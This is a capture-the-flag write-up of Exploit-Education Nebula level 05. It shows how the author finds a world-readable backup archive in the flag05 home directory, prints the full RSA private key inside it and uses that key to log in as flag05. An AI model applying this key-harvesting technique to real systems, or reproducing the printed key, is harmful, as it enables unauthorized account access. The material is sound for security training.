 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 05"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 5](https://exploit.education/nebula/level-05/)

## Challenge
Check the `flag05` home directory. You are looking for weak directory permissions
To do this level, log in as the `level05` account with the password `level05`. Files for this level can be found in `/home/flag05`.
## Vulnerability
Lets take a look at the files
```bash
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     100 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
level05@nebula:/home/flag05$ ls ./.ssh/ -la
ls: cannot open directory ./.ssh/: Permission denied

level05@nebula:/home/flag05$ ls ./.backup/ -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```
The backup file has read permissions.
Lets copy the `backup-19072011.tgz` file and look at the contents  
```bash
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /home/level05
level05@nebula:/home/flag05/.backup$ cd /home/level05
level05@nebula:~$ ls
backup-19072011.tgz
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```
The backup file contains `ssh` keys. We can use this keys instead of password for login
```bash
level05@nebula:~$ cd .ssh/
level05@nebula:~/.ssh$ ls -la
total 12
drwxr-xr-x 1 level05 level05  100 2011-07-19 02:37 .
drwxr-x--- 1 level05 level05  100 2019-08-13 10:00 ..
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 authorized_keys
-rw------- 1 level05 level05 1675 2011-07-19 02:37 id_rsa
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 id_rsa.pub
level05@nebula:~/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAywCDXFL7nGpgxuT8y8ZYyzif565M6LexECfaRFl6ECQtP2Vp
vns4RR0HeVFpZMD2dhQQ76sXXK4Jph0/xVRgYytF1hsCJLiedJ3+aWyRMYtkgvZD
TDDD9lYGPzsb3FLqBocxCEpYJLruISY1YdzXpYgIBEVc8Sgq8Ur1uPMHAMYOL+b3
Hga2upWO7vBU9g91SLB6IMyje+2doO5NqmPNgNLzqsPNnv4eiFy46WMAbq9K5tP7
txhQdRxYZwMbhnJ+CLJ0EgXUAgdkvnjlGeD5okP61Eh7lbzHiws68SkflBvcw8KA
sMF6TSXoQECRgoi9ycwTZy4xWspUqij+sY+3EQIDAQABAoIBAAGir2w+/ufzs3Pm
xGKf5nc8rY0gSl5VnIeUyp1iWylmITcxifiO5ZUo9rZzgXXeWB37a2eC6V1Fya4c
7jaYx24FGzruXMYO9rfZzgLrbQAJL3YepcwnWGzTpJk90Kulv1zuGecHMk6ZcvGx
bRysutAKmIXwSR9oQ3BOOkyTKKtI6YeKSnUNU1KVO1t//ps2wFcfXRFb17prpokx
5clWwfUYRLBQlB4XjBIJ3tswpyC0PNOFfzoF+VeUlN9XZFrL0JWHX1F9DDOFJYL5
bXw7zwhjEvZ0/qOvZSJiH4lkbmANsBeMNY/JOGV6T7dWthKBGehCnupeADZVaSeo
Qlysa0ECgYEA6x4FwgpeqNtNGeCcSAUtoviTYMD5LfMEpY8t9eGdRpzw1CDlmG9x
k1LgzE3eA0qlJYx5NNqYEefIPVLdmSuSGS/5KqHeB8Ph7+WqLmguwIIIrfRJoPaD
ON2XqLU6YzAEazTrXnqALjOvP3qdN57xK0zoBAfYlkXJRgMYE1S23YsCgYEA3QhF
Fl11csPc2Yyz/7+9MG9JnOckYvuir+bf3fj/HEuIC9ylwXd4GfSLAW02Sg8DlfRh
M7MxCW9OEWtKgUtHe3fGc6/6X1yF7QfeAYZm8UX/fo6PxuX++mvfPxM4i6vRjgzB
Qy8WisqTK9nLZO+hEdPoVqalz0iUsvu2umz0CVMCgYAsNoUWrCSI1FR3XUmGMZMX
Zm8wbpltDpn9GCOobTjKIpEXEuiZ9bsB3T/wq2Poco0DtprEWabnFxMMlRyexRbA
LclJPw8lnqxKFIIgH+9KvCktrRZ7cl/SvbjbPNkx9cGe92Cbb6XTCl0WLtSJtRXc
8qVevKr59z2WMNbCK9gHaQKBgQDRaQNjpBohKFX2OytSU8uftuBMamV77iJ9e0SA
Hmc83IbBjkPwnwrHtHt6V4lG8yCXktgAznXYFX8mW7tT8gmAfcMkWgbhEFzGbFy2
nyqqzoG42sJ3U/KWOVtifAhns9qvNYBo8ZTu2+xBcHAWaj31EQqgBfU0BPT0+ixu
RcmThwKBgAi0ej7ylHhtwODQGghRmDpxEx9deJ0jilM2EnqIecJj5jnPW8BKDgV4
Dc1QljBeCQ1r30DGYmOIazbhm+orm4df6HWPayRhNBlkmulqTs5GHvLMPjcKMB0k
0Xna7QOtBAnzoHpLcrfvBdfRNE1eC87YkPUhmm5hBgG0+TeMmWgr
-----END RSA PRIVATE KEY-----
```
This is a pem key. We can convert it into a `ppk` key and ssh using putty and authenticate using `ppk` key.  
[How to convert pem to ppk](https://www.puttygen.com/convert-pem-to-ppk)
## Solution
Lets connect to ssh using the `ppk` key

Once the .pem file is converted .ppk then users can connect to remote hosts using PuTTY’s SSH client. Below are steps to launch a PuTTY session.

1. First, open PuTTY and input the host IP address. Please note that an SSL VPN connection must be established if the connection is to with 10.X private address.
2. Now, from the category pane, navigate to Connection and expand SSH and the Auth.
3. Click on ‘Browse’ and select the newly converted .ppk file, that was generated using PuTTYgen.
4. Now to commence the PuTTY session, choose the option ‘open.’

``` bash
login as: flag05
Pre-authentication banner message from server:
|
|       _   __     __          __
|      / | / /__  / /_  __  __/ /___ _
|     /  |/ / _ \/ __ \/ / / / / __ `/
|    / /|  /  __/ /_/ / /_/ / / /_/ /
|   /_/ |_/\___/_.___/\__,_/_/\__,_/
|
|     exploit-exercises.com/nebula
|
|
| For level descriptions, please see the above URL.
|
| To log in, use the username of "levelXX" and password "levelXX", where
| XX is the level number.
|
| Currently there are 20 levels (00 - 19).
|
|
End of banner message from server
Authenticating with public key "imported-openssh-key"
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Solved!